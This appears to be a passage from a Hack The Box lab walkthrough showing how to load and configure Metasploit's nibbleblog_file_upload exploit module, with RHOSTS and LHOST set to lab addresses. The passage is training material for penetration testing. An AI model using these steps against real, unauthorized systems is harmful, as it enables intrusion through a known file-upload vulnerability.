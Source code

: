 - Metasploit is a powerful tool for automating penetration testing tasks like exploitation, payload generation, and vulnerability scanning. Using it helps you quickly identify and exploit weaknesses in systems.
    

### 2. **Searching for the Exploit**

- Once Metasploit is loaded, search for exploits related to **Nibbleblog**:
    
    ```bash
    search nibbleblog
    
    ```
    
- You will see a list of matching modules. The exploit you are looking for is **nibbleblog_file_upload**, which takes advantage of a file upload vulnerability in Nibbleblog (an older version of blogging software).
    
- The relevant module will look like this:
    
    ```bash
    exploit/multi/http/nibbleblog_file_upload
    
    ```
    

### 3. **Loading the Exploit**

- Select the exploit by either using its number (in the search result) or typing the full path of the module:
    
    ```bash
    use 0  # This loads the first result, nibbleblog_file_upload.
    
    ```
    

### 4. **Setting the Exploit Options**

- Once the exploit is loaded, you need to set the options. These are the target’s IP address (`RHOSTS`) and your attacking machine’s IP address (`LHOST`), which is usually the `tun0` interface (comes with the VPN connection from Hack The Box).
    
    ```bash
    set rhosts 10.129.42.190
    set lhost 10.10.14.2  # Replace this with your machine's tun0 IP.
    
    ```
    

### 5. **Showing the Module Options**

- Use `show options` to check what other values need to be set. This command will display the required parameters:
    
    ```bash
    show options
    
    ```
    